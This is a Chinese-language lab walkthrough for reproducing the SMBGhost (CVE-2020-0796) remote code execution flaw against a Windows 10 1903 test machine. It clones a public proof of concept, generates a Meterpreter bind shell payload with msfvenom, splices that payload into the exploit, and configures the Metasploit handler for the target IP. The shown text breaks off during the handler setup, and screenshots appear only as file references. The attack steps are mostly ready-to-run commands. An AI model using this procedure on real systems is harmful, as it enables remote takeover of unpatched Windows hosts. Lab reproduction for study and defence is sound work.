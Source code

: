 目标靶机：windows10 1903 x64 (专业版，企业版也可以） ip:192.168.1.103

目 标 靶 机 的 下 载 地 址 ：
ed2k://\|file\|cn\_windows\_10\_business\_editions\_version\_1903\_x64\_dvd\_e001dd2c.iso\|4815527936\|
47D4C57E638DF8BF74C59261E2CE702D\|/

**环境要求：**

该poc不太稳定，需要多次测试(猜测是占用监听端口或者网络问题），有可能出现蓝屏现象(2).如果POC失败，可能是目标系统开启系统自带的defender拦截了。

**复现步骤**

kali下克隆下载利用poc

`root\@kali2019:/opt\# git clone* https://github.com/ianxtianxt/SMBGhost_RCE_PoC.git`

![5.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId38.jpg)

切换到利用poc目录下

`root\@kali2019:/opt\# cd SMBGhost_RCE_PoC/`

![6.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId39.jpg)

该POC需要用python3环境执行

![7.png](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId40.png)

可以看到目标靶机的IP地址以及系统版本

![8.png](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId41.png)

![9.png](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId42.png)

在kali下生成python版本的反弹shellcode

`root\@kali2019:\~\# msfvenom ``­``p windows/x64/meterpreter/bind_tcp lport=2333 ``­``f py ``­``o exp.py`

![10.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId43.jpg)

![11.png](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId44.png)

可以看到生成的shellcode root\@kali2019:\~\# cat exp.py

将生成的exp.py代码中的变量buf全部替换成变量USER\_PAYLOAD，然后将所有代码粘贴覆盖下面的代码处：

![12.jpg](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId45.jpg)

在kali上启动MSF，并如下设置`msf5 \> use exploit/multi/handler`

`msf5 exploit(multi/handler) \> set payload windows/x64/meterpreter/bind_tcp`\
\#设置反弹模式msf5 exploit(multi/handler) \> set rhost 192.168.1.103\
\#设置目标靶机IP地址

![13.png](/Users/aresx/Documents/VulWiki/.resource/(CVE­-2020­-0796)Windows远程溢出漏洞/media/rId46.png)
